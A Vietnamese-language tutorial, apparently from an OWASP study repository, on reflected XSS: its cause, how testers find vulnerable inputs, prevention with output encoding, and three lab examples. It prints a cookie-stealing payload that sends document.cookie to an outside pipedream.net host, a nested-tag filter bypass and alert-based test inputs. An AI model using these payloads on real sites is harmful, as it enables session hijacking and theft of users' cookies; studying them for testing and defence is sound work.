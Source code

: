 ## Description
- Kỹ thuật XSS được thực hiện dựa trên việc chèn các đoạn script nguy hiểm vào trong source code ứng dụng web. Nhằm thực thi các đoạn mã độc Javascript để chiếm phiên đăng nhập của người dùng
- Mã độc được tiêm vào url và gửi đến cho nạn nhân, nạn nhân ấn vào đường link có chứa mã độc và hacker sẽ nhận được response chứa kết quả mong muốn.
![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/1%20o_asKsD_JqunhqggHoxodw.png)  

##### Example:
```http://example.com/?search=<script>alert(1)</script>```
## Reason
- Server không kiểm soát giá trị input người dùng nhập vào trước khi trả về cho trình duyệt

## Exploit
1. Phát hiện input vector  
    * Đối với mỗi trang web, người kiểm tra phải xác định tất cả các input do người dùng định nghĩa và cách nhập chúng
    * **Các input dễ bị tấn công:** ?search=,?page=,?document=,?user=,...
2. Phân tích từng vector 
    * Người kiểm tra fuzz các kí tự và các từ khóa nhạy cảm,vô hại để phát hiện lỗ hổng trong ứng dụng web.
    * Phát hiện các input cho phép hiển thị kết quả được nhập vào!
    * **Các kí tự nhạy cảm:** <,>,/,script,alert,',...
Example: Input
```
<script>alert(document.cookie)</script>
```
3. Phân tích kết quả
    * Người kiểm tra xác định bất kỳ ký tự đặc biệt nào không được mã hóa, thay thế hoặc lọc đúng
    * Các kí tự HTML đặc biệt cần phải được thay thế bằng HTML entities hoặc replace,encode,...
## Prevention
- Lọc input và ouput bằng các hàm như replace(),addslashes(),pre_match(),htmlspecialchars(),htmlentities(),...
## Example
### Example 1:
![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/001-1.png)  

- Ta có trang web như trên.Trang web trên cho phép người dùng nhập vào tên và in ra kết quả ra màn hình. Dữ liệu input được gửi lên server bằng phương thức **GET**.Đối với người sử dụng bình thường có thể thấy trang web hoàn toàn hoạt động bình thường.Bây giờ ta sẽ tiến hành nhập thử đoạn javascript đơn giản vào input:```<script>alert(1);</script>```.Kết quả:  

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/001-2.png)  

- Qua hình ảnh trên ta có thể thấy đoạn script ta nhập đã được thực thi.Tiến hành phân tức dữ liệu trả về ta thấy như sau:  

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/001-3.png)  

- Trong quá trình xử lí dữ liệu người dùng nhập vào không dược filter nên dữ liệu server trả về sẽ làm thay đổi DOM của trang Web và đoạn script được thực thi.  

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/001-4.png "dữ liệu xử lí không được filter")

- Hacker có thể inject đoạn script cực kì độc hại lừa nạn nhân và đánh cắp cookie như sau:  
```js
?name=<script>var+i%3Dnew+Image()%3Bi.src%3D"https%3A%2F%2Fentqd5oi4bil.x.pipedream.net%3Fa%3D"%2Bdocument.cookie%3B<%2Fscript>#
```

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/001-9.png)

- Cookie của nạn nhân được chuyển đến hacker

### Example 2:
- Chúng ta sẽ tiếp tục ví dụ trên nhưng ở mức độ nâng cao hơn một chút  

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/001-5.png)  

* Ta sử dụng payload ```<script>alert(1)</script>``` để kiểm tra. Nhưng lần này đoạn code ta inject đã không được thực thi. Thay vào đó kết quả trả về là **Hello alert(1);**. Ấn **ctrl+u** hoặc **f12** kiểm tra raw response:  

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/001-6.png)

* Oh!!! Ta thấy ngay từ khóa ```<script>``` đã bị filter  

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/001-7.png)  

* Đối với dạng filter lỏng lẻo như thế này chúng ta có thể bypass bằng payload có dạng như sau: ```<scr<script>ipt>alert(1);</script>```  

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/001-8.png)

#### Example 3:
![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/001-10.png)
- Ở ví dụ này chúng ta thấy input đã được lọc bởi hàm preg_replace(),tất cả dữ liệu người dùng nhập vào có chứa tag ```<script>``` đều sẽ bị loại bỏ. Nhưng như thế liệu có hoàn toàn an toàn???  

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/001-11.png)

- Đối với những trường hợp như thế này hacker có thể thay thế thẻ script bằng các thẻ khác như ```<a>```,```<img>```,... và chèn script độc hại thông qua HTML Event Attributes.

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/001-12.png)

Result:

![](https://github.com/huyenlamchiton/owasp/blob/master/Input%20Validation%20Testing/image/001-13.png)